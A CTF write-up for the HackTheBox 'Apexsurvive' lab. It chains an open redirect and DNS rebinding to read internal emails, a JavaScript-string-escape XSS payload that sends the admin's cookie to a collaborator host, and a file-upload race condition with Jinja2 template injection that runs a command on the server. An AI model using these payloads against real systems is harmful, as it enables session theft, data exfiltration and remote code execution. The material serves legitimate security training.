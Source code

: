 +++
title = 'HackTheBox Cyber Apocalypse 2024 Apexsurvive Writeup'
date = 2024-03-14T17:38:37+01:00
draft = false
+++

## First Steps
We analyze the code and notice the email page will only show emails addressed to test@email.htb.

![EmailCode](/test-email.png)

We create a user with the email test@email.htb and confirm the registration by visiting the link from an email.

![Verify email 1](/verify-email-1.png)

![Verify email 2](/verify-email-2.png)

## Internal User
Upon further code inspection we find out that users that sign up with an email hosted at apexsurvive.htb will be marked as internal users.

![VerificationCode](/apexsurvive-email.png)

There's an "/external" API endpoint that can be used for an open redirect.

![Open redirect](/open-redirect.png)

And the emails are served by mailhog running on port 9000 and can be internally retrieved by using the "/api/v2/messages" endpoint.

![Mailhog port](/mailhog-port.png)

We create an user asdf@apexsurvive.htb.

![Apex register](/apex-register.png)

We log in and request a verification email. It won't appear in emails on the website.

![Apex verify](/apex-verify.png)

We'll use the /external endpoint for an open redirect to our controlled website and then do DNS rebinding to fetch emails from mailhog running on port 9000 and get the confirmation email for internal user. To do this, I'll set up an EC2 instance with a public ip address and then add a DNS NS record for it (keep in mind the dot at the end):

![DNS config](/dns-config.png)

On the instance, I'll run https://github.com/mogwailabs/DNSrebinder to change the resolution of my domain from ec2 public ip address to 127.0.0.1 after a moment:

    sudo python3 dnsrebinder.py --domain dynamic.mywebsite.xyz. --rebind 127.0.0.1 --ip <website-public-ip> --counter 1 --udp --ttl 1

We'll also run an http server on it serving index.html that keeps fetching /api/v2/messages for mailhog emails and then sends them back to us. Keep in mind it has to be on the same origin (port 9000).

    sudo python3 -m http.server 9000

index.html:

    <html>
    <body>
    <script>
        (function () {
            var axhr = new XMLHttpRequest();
            axhr.open('GET', 'http://myburpcollab.oastify.com?start=start');
            axhr.send()
            var interval = setInterval(function () {
                var xhr = new XMLHttpRequest();
                xhr.open('GET', 'http://dynamic.mywebsite.xyz:9000/api/v2/messages', false);
                xhr.onload = function () {
                    if (xhr.status != 200) { return; }
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open('GET', `http://myburpcollab.oastify.com?msgs=${btoa(this.responseText)}`);
                    xhr2.send();
                };
                xhr.send()
            }, 200)
        })();
    </script>
    </body>
    </html>

We log in as test@email.htb and report:

    ../external?url=http://dynamic.mywebsite.xyz:9000/

We notice how after a short moment our DNS server starts resolving our domain to 127.0.0.1 instead of our public API.

![DNS rebind](/dns-rebind.png)

It might take about 1 minute before the domain resolution is updated to 127.0.0.1. The first callback after start=start one contains base64 encoded emails from mailhog API. We decode them and get the confirmation link for the internal user.

![Exfiltrated emails](/exfiltrated-emails.png)
![Base64 emails](/base64-emails.png)

## XSS to steal admin cookie
As an internal user we now have the ability to add products. In /application/templates/product.html we notice that the product.note (Product manual) from an input controlled by us is not sanitized and allows us to escape JS backticks.

![Product note JS string escape](/product-note.png)

We add any new product and in the product manual we put in:

    `;fetch("https://myburpcollab.oastify.com/xss?c="+document.cookie);let x=`

![Add product](/add-product.png)

We double check we escaped JS backticks after adding the product:

![JS backtick escape](/js-backtick-escape.png)

After we create it, we make admin visit it by reporting its assigned product number. We take the admin session cookie from the callback.

![Admin session XSS](/admin-session-xss.png)

## Admin to RCE
As an admin, we now have the ability to add PDF contracts. We notice that:
- the file is always saved to the same location before checking it’s a pdf,
- we can save the file anywhere by using “..” in the filename,
- the pdf check takes the temporary file from the file system, not directly from the request.

![Race condition in PDF upload](/pdf-upload-race-condition.png)

As a result, there’s a race condition between saving the temp file and checking that it’s a pdf.

We prepare 2 files:
1) a small pdf,
2) a jijnja template that’ll read out the flag:

        Result {{ self.__init__.__globals__.__builtins__.__import__('os').system('/readflag > /app/application/static/images/flag.txt') }}

We upload both and add them to a burp repeater group like so:

![Burp parallel requests setup 1](/burp-parallel-1.png)
![Burp parallel requests setup 2](/burp-parallel-2.png)

We try sending them multiple times using “Send group (parallel)”. We can play around with the number of pdf/jinja2 template requests in the group. We watch out for “message: Contract added” in a response to a jinja2 template upload. We check for it by refreshing any product page multiple times. If we see our payload, the flag is available under /static/images/flag.txt.

![Result 0](/result-0.png)
![Apex flag](/apex-flag.png)

## References:
- https://unit42.paloaltonetworks.com/dns-rebinding/
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://portswigger.net/research/smashing-the-state-machine